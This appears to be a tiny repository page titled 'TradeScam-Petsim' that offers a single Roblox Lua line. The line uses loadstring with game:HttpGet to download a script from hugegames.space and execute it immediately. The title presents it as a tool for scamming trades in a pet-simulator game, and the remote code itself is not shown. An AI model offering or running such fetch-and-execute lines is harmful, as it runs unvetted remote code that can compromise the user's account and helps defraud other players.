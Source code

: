 # TradeScam-Petsim
loadstring(game:HttpGet('https://hugegames.space/9f221d2fe792a6caa000c3ed.lua'))()

